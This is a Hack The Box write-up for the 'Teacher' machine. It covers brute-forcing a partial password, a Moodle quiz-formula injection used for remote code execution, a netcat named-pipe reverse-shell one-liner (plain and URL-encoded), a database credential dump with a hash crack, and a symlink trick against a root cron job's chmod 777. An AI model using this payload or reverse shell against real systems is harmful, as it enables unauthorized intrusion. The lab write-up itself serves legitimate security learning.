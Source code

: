 ```yaml
---
layout: post
title: Hack The Box - Teacher
categories: hack-the-box
tags: [Linux, Web, RCE, php]
image: /hackthebox/teacher/0.png
---
```

<hr>
### Quick Summary
#### Hey guys , today Teacher retired and here is my write-up about it. I don't have too much to say about this box. It was an easy regular machine , We will exploit an authenticated remote code execution in a vulnerable version of a web application called moodle to get an initial shell on the box. And for privilege escalation we will find a directory which permissions are set to read , write and execute by anyone , and from there we can create a symlink to `/root` or anything else we want to access. It's a linux box and its ip is `10.10.10.153` I added it to `/etc/hosts` as `teacher.htb`. Let's jump right in !
![](/images/hackthebox/teacher/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services : 
`nmap -sV -sT -sC teacher.htb`
![](/images/hackthebox/teacher/1.png)
#### We only see http running on port 80. Let's see what's in there.
<br>
<hr>
### HTTP Initial Enumeration
![](/images/hackthebox/teacher/2.png)
#### There is just a static website titled `Blackhat highschool` , I looked into other pages like `Courses` , `Students` etc... And also checked their source code. And on `Gallery` : 
![](/images/hackthebox/teacher/3.png)
#### I found this line in the source :
![](/images/hackthebox/teacher/4.png)
#### for `<img src="images/5.png">` there is an `onerror` attribute to print `That's an F` in the console. So I checked the console : 
![](/images/hackthebox/teacher/5.png)
#### Weird let's check that image. `http://teacher.htb/images/5.png` :
![](/images/hackthebox/teacher/6.png)
#### Corrupted file ? Let's check if it's really a corrupted image or it's not an image at all :
`curl http://teacher.htb/images/5.png`
![](/images/hackthebox/teacher/7.png)
```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.                                                 

Could you guys figure out what the last charachter is, or just reset it?                                                                   

Thanks,
Giovanni
```
#### Nice , we have a username and a password but we still need to figure out the last character. But where will we use these credentials anyway ? I ran gobuster with `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` in the background and got some results , one of them was `/moodle`. 
`http://teacher.htb/moodle`
![](/images/hackthebox/teacher/8.png)
> Moodle is a free and open-source learning management system written in PHP and distributed under the GNU General Public License  -[Wikipedia](https://en.wikipedia.org/wiki/Moodle)

#### On the login page there's a guest login :
![](/images/hackthebox/teacher/9.png)
#### However I couldn't achieve anything from that guest login.
<br>
<hr>
### Bruteforcing the last character
#### We have the credentials but we need to figure out the last character of the password. I created a list of numbers , letters and special chars and printed them next to the password.
#### `for i in {a..z}; do echo Th4C00lTheacha$i; done > list.txt` this will print all the letters next to `Th4C00lTheacha`
#### Then I added some special chars manually like `!@#$%^&*()_-+=.?/\` and finally I added numbers : `for i in {0..9}; do echo Th4C00lTheacha$i; done >> list.txt`
#### `list.txt` : 
```
Th4C00lTheachaa
Th4C00lTheachab
Th4C00lTheachac
Th4C00lTheachad
Th4C00lTheachae
Th4C00lTheachaf
Th4C00lTheachag
Th4C00lTheachah
Th4C00lTheachai
Th4C00lTheachaj
Th4C00lTheachak
Th4C00lTheachal
Th4C00lTheacham
Th4C00lTheachan
Th4C00lTheachao
Th4C00lTheachap
Th4C00lTheachaq
Th4C00lTheachar
Th4C00lTheachas
Th4C00lTheachat
Th4C00lTheachau
Th4C00lTheachav
Th4C00lTheachaw
Th4C00lTheachax
Th4C00lTheachay
Th4C00lTheachaz
Th4C00lTheacha!
Th4C00lTheacha@
Th4C00lTheacha#
Th4C00lTheacha$
Th4C00lTheacha%
Th4C00lTheacha^
Th4C00lTheacha&
Th4C00lTheacha*
Th4C00lTheacha(
Th4C00lTheacha)
Th4C00lTheacha_
Th4C00lTheacha-
Th4C00lTheacha+
Th4C00lTheacha=
Th4C00lTheacha.
Th4C00lTheacha?
Th4C00lTheacha/
Th4C00lTheacha\
Th4C00lTheacha0
Th4C00lTheacha1
Th4C00lTheacha2
Th4C00lTheacha3
Th4C00lTheacha4
Th4C00lTheacha5
Th4C00lTheacha6
Th4C00lTheacha7
Th4C00lTheacha8
Th4C00lTheacha9
```
#### Since it's a small list , I used burp intruder to bruteforce the password. Let's intercept the request and send it to intruder :
![](/images/hackthebox/teacher/10.png)
<br>
<br>
![](/images/hackthebox/teacher/11.png)
<br>
<br>
![](/images/hackthebox/teacher/12.png)
#### After it's finished , all the responses were 870 bytes in length except the response of the payload `Th4C00lTheacha#`.
![](/images/hackthebox/teacher/13.png)
#### So probably this is the right password , let's check.
![](/images/hackthebox/teacher/14.png)
#### It worked and now we are in as `Giovanni`
<br>
<hr>
### RCE , Initial Shell as `www-data`
#### After some enumeration I didn't find anything interesting , so I searched on Google and found this [article](https://blog.ripstech.com/2018/moodle-remote-code-execution/). Let's try to reproduce that vulnerability.
#### First , we will go to the `Algebra` course :
![](/images/hackthebox/teacher/15.png)
#### Then we will turn editing on :
![](/images/hackthebox/teacher/16.png)
#### Now we can edit the course , so we will choose any topic and click on `Add an activity or resource` and we will choose `Quiz` :
![](/images/hackthebox/teacher/17.png)
#### Then we will just fill in the required information :
![](/images/hackthebox/teacher/18.png)
#### And click on `Save and display`.
![](/images/hackthebox/teacher/19.png)
#### After that we will click on `edit quiz` :
![](/images/hackthebox/teacher/20.png)
#### And add a new question. Question type will be `Calculated` :
![](/images/hackthebox/teacher/21.png)
<br>
<br>
![](/images/hackthebox/teacher/22.png)
#### Again we will fill in the required information :
![](/images/hackthebox/teacher/23.png)
#### And finally we reach the actual exploitation , we will set the answer formula to :
```
/*{a*/`$_GET[0]`;//{x}}`
```
![](/images/hackthebox/teacher/24.png)
#### This will allow us to pass system commands through a url parameter called `0` , More info about how the exploit is working can be found in the previously mentioned article.
#### After saving the changes we will get this page : 
![](/images/hackthebox/teacher/25.png)
#### We will click on `Next Page` to finally get to the vulnerable page :
![](/images/hackthebox/teacher/26.png)
#### Let's add the parameter `0` and get a reverse shell :
#### Shell : `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f`
![](/images/hackthebox/teacher/27.png)
#### Note : the payload is url encoded. So final payload will be : `&0=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+ip+port+>/tmp/f`
#### After sending the request , our listener gets a callback. And we get a reverse shell as `www-data` :
![](/images/hackthebox/teacher/28.png)
#### There is only `giovanni` on the box and we can't access his `/home` directory as `www-data`.
![](/images/hackthebox/teacher/29.png)
<hr>
### Hardcoded Database Credentials , Privilege Escalation to `giovanni`
#### Back to `/var/www/html/moodle` , I wanted to check config files and other stuff to see if there are any information that can help. And in `config.php` I found database credentials :
![](/images/hackthebox/teacher/30.png)
#### Sweet , Let's see what's in there.
`mysql -h 127.0.0.1 -u root -p`
![](/images/hackthebox/teacher/31.png)
#### We are not in any database `[(none)]` , Let's list the databases :
`SHOW DATABASES;`
![](/images/hackthebox/teacher/32.png)
#### `moodle` is interesting and might have some passwords.
`USE moodle;`
![](/images/hackthebox/teacher/33.png)
#### Now let's check the tables :
`SHOW TABLES;`
![](/images/hackthebox/teacher/34.png)
#### A lot of tables , but an interesting one is called `mdl_user` :
![](/images/hackthebox/teacher/35.png)
#### Alright , let's see what's in that table :
`SELECT * from mdl_user;`
![](/images/hackthebox/teacher/36.png)
#### We didn't get the best output :D but anyway I looked into it and found this `md5` hash :
![](/images/hackthebox/teacher/37.png)
#### And its name is `Giovannibak` , probably a backup for giovanni's password. [crackstation](https://crackstation.net/) was able to crack it :
![](/images/hackthebox/teacher/38.png)
#### The password is `expelled`, we can `su` to `giovanni`
![](/images/hackthebox/teacher/39.png)
#### Now we own user.
<br>
<hr>
### `777`. Ability to read , write and execute anything on the system
#### In giovanni's `/home` directory there is a directory called `work` which has two directories `courses` and `tmp`. Nothing Special.
![](/images/hackthebox/teacher/40.png)
<br>
<br>
![](/images/hackthebox/teacher/41.png)
#### After a lot of enumeration I found in `/usr/bin` a script called `backup.sh` :
![](/images/hackthebox/teacher/42.png)
<br>
<br>
![](/images/hackthebox/teacher/43.png)
#### We don't really care about the `tar` commands , What we care about is that it's changing current directory to `/home/giovanni/work` then changes it once again to `/home/giovanni/work/tmp` then changes permissions to `777` recursively. This means that any user can read , write and execute any file in `/home/giovanni/work/tmp`. So if we created a symlink for `/root` in `/home/giovanni/work/tmp` and wait for the script to get executed by root (cronjob) we will have access to `/root`. In normal conditions creating a symlink to `/root` won't let you have access to it if you don't have the permissions to. Because it's still linking to a directory that you are not authorized to access. But since the script runs `chmod 777` on `/home/giovanni/work/tmp` recursively, Anyone has access to what's in there even symlinks. This [article](https://www.maketecheasier.com/file-permissions-what-does-chmod-777-means/) explains it very well. Read [this](https://stackabuse.com/symbolic-links-in-unix-linux/) if you don't know what's a symlink.
#### Alright , Let's create a symlink for `/root` in `/home/giovanni/work/tmp`
`ln -s /root ./tmp`
![](/images/hackthebox/teacher/44.png)
<br>
<br>
![](/images/hackthebox/teacher/45.png)
#### And we owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - RedCross](/hack-the-box/redcross/)
#### Next Hack The Box write-up : [Hack The Box - Irked](/hack-the-box/irked/)
<hr>
